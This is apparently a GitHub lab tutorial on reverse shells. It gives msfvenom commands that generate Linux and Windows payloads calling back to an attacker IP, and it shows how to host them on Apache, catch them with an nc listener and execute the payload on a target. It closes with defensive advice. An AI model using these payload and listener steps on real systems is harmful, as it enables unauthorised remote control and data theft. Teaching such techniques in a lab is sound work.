 # Gaining_Shell_Access_By_Reverse_Shell
## Reverse shell and its functionality:
A **reverse shell** attack occurs when an attacker gains unauthorized access to a target system by creating a malicious payload that causes the victim’s system to connect back to the attacker's machine. Unlike traditional attacks where the attacker directly connects to the victim, in a reverse shell, the victim's machine initiates the connection to the attacker. This allows the attacker to bypass network security measures, such as firewalls, that typically block incoming traffic. Once the reverse shell is executed on the victim machine, it opens a command-line interface that provides the attacker with control over the system. The attacker can then issue commands, execute malicious code, steal sensitive data, or install additional malware. Reverse shell attacks often exploit vulnerabilities in the target system's software, such as unpatched security flaws, and can be delivered through methods like phishing emails or malicious websites. Defenders must be vigilant by monitoring network traffic for unusual outbound connections and ensuring systems are regularly updated to close any vulnerabilities that could be exploited.

**How it works**
A **reverse shell** attack works by exploiting the connection flow between a compromised system and the attacker's machine. Here's a breakdown of how it works:
1. **Preparation:** The attacker creates a malicious payload, often using tools like msfvenom, which generates an executable file designed to establish a reverse connection from the victim's system to the attacker's machine. The payload is configured with the attacker's IP address and a specific port number that will be used to establish the connection.
2. **Delivery:** The attacker then delivers this payload to the target system, typically using social engineering tactics such as phishing emails, malicious attachments, or exploiting vulnerabilities in the victim’s software or web applications.
3. **Execution:** Once the victim executes the payload (which could be in the form of a script, executable, or file), the malicious code runs on the victim’s machine. This causes the victim’s system to initiate an outbound connection to the attacker's IP address and port, thus establishing a communication channel.
4. **Connection Established:** Upon connection, the attacker gains a shell or command-line interface that provides full control over the victim’s system. The attacker can now execute commands on the system as if they were sitting in front of it, allowing them to navigate directories, access files, install malware, or exfiltrate data.
5. **Persistence:** In some cases, attackers may set up the reverse shell to run persistently, meaning it reconnects if the victim’s system is rebooted or if the connection is severed. This allows for ongoing access to the system until it is detected and removed.


## Preparation
Create payload
Command for linux

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.104 LPORT=8080 -f elf > shell.elf
```

Command for Windows
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.104 LPORT=8080 -f exe > reverse.exe
```

Explanation
- **Payload:** Generates a reverse TCP shell for a Windows system.
- **LHOST:** Attacker's IP address is 192.168.1.104
- **LPORT:** Listening port is 8080
- **Output:** Saves the payload as shell.elf, reverse.exe.

![image](https://github.com/user-attachments/assets/87a44ee2-1750-45ad-9d7e-4999e5f1a9cc)



## Delivery
Since we are using a lab setup, so for delivery we will be hosting our server for target to downloading the payload.

Starting our apache server:
```
sudo systemctl start apache2
```

to check if the server is started or not:
```
sudo systemctl status apache2
```
![image](https://github.com/user-attachments/assets/e48c06dd-b079-4eed-b13c-82466115ab57)


Change the directory to server
```
cd var/www/html
```

![image](https://github.com/user-attachments/assets/117f5b75-aa3e-4fd9-b9e5-c5bb0ea9aa70)

Remove the index file

```
sudo rm -rf index.html
sudo rm -rf index.nginx-debian.html
```

![image](https://github.com/user-attachments/assets/7fe7fbc4-53c1-435b-a430-f85b2c45c175)

Now move the elf file and exe file
```
sudo mv /home/kali/Desktop/reverse.exe ./
sudo mv /home/kali/Desktop/shell.elf ./
```

Files should be visible in the web browser
![image](https://github.com/user-attachments/assets/0258d664-33f2-447f-8ce7-bda369bc0d4d)


Open listener
```
nc -lvnp 8080
```

![image](https://github.com/user-attachments/assets/fa1723da-9f13-4d19-9e42-f09d112d6de3)


**Goto target machine**

Open the server ip in web browser in target machine
![image](https://github.com/user-attachments/assets/a8784e6b-0334-450e-a411-0144177a5c53)

Download the elf file since our target machine is linux
Change the directory to Downloads
```
cd Downloads
```

Check the permissions for elf file
```
ls -l shell.elf
```
If it is not executable Give the executable permission to elf file.

```
chmod +x shell.elf
```

![image](https://github.com/user-attachments/assets/473ad2ab-2c4b-49f1-b88d-07c94ba33e32)


Execute the file
```
./shell.elf
```

```
bash shell.elf
```

## Connection Established
When the file is executed the connection is established between target machine and the host

![image](https://github.com/user-attachments/assets/2bfdee70-12d0-462c-a009-23a367b4a2d7)


We can check it by commands
Like whoami, pwd etc

![image](https://github.com/user-attachments/assets/a9e8f991-7c26-4a38-a990-8d338401f949)

![image](https://github.com/user-attachments/assets/109f5391-f52d-4d2d-8b12-f4ae78ac1f1f)


Also for testing we create file and directory
![image](https://github.com/user-attachments/assets/f16d7f3f-a376-4065-9c6e-998dfc94a39b)


## Defence against Reverse Shell
Defending against a **reverse shell** attack requires a multi-layered approach to network security, system hardening, and vigilant monitoring. Here are key strategies to prevent and mitigate reverse shell attacks:
1. **Network Segmentation and Firewalls:** One of the most effective defenses is to configure firewalls to block unauthorized outbound traffic. By limiting outgoing connections and ensuring that only necessary services can initiate connections, you can make it harder for a reverse shell to establish a connection to the attacker’s machine. Implement network segmentation to isolate critical systems, reducing the impact if a system is compromised.
2. **Intrusion Detection Systems (IDS) and Intrusion Prevention Systems (IPS):** Deploy IDS/IPS solutions to monitor and analyze network traffic for signs of suspicious activity, such as unusual outbound connections or unexpected ports being accessed. These systems can detect reverse shell traffic and trigger alerts or automatically block malicious connections.
3. **Endpoint Security:** Ensure that all systems are equipped with up-to-date antivirus, anti-malware software, and endpoint detection and response (EDR) solutions. These tools can help identify malicious payloads before they are executed and stop the reverse shell from gaining a foothold.
4. **Regular Patching and Software Updates:** Keeping software and systems patched is essential in closing vulnerabilities that could be exploited by reverse shell payloads. Attackers often leverage unpatched vulnerabilities in applications or operating systems to gain access to a system. Regularly updating software reduces the chances of such attacks succeeding.
5. **Least Privilege Principle:** Limit user privileges on systems to the minimum required for normal operations. By restricting the permissions of users and applications, even if a reverse shell is executed, the attacker will have limited access and may not be able to perform significant damage or exfiltrate sensitive data.
6. **Application Whitelisting:** Implement application whitelisting to restrict which applications can run on systems. This can prevent unauthorized payloads from executing, especially if they are delivered through malicious attachments or downloads.
7. **User Awareness and Training:** Educate users about the dangers of phishing, suspicious attachments, and malicious links. Social engineering is a common delivery method for reverse shell payloads, and awareness training can significantly reduce the risk of human error.
8. **Monitoring and Logging:** Continuously monitor and log all system and network activities to detect any abnormal behaviour indicative of a reverse shell. Look for patterns such as high outbound traffic, unexpected connections, or unfamiliar IP addresses. Logs should be analyzed regularly to spot potential breaches early.


# Conclusion
In conclusion, reverse shell attacks represent a significant threat in the realm of cybersecurity, enabling attackers to bypass traditional security defenses and gain unauthorized control over systems. By leveraging techniques such as malicious payload delivery and exploiting software vulnerabilities, attackers can establish covert communication channels with compromised systems, allowing them to execute commands and carry out malicious activities. Defending against reverse shell attacks requires a comprehensive approach, including network segmentation, strong endpoint security, regular patching, and the implementation of intrusion detection systems. Additionally, educating users on cybersecurity best practices and maintaining vigilant monitoring can help identify and prevent potential breaches. With these proactive defense strategies, organizations can significantly reduce the risk of reverse shell attacks and protect their critical systems and data from compromise.
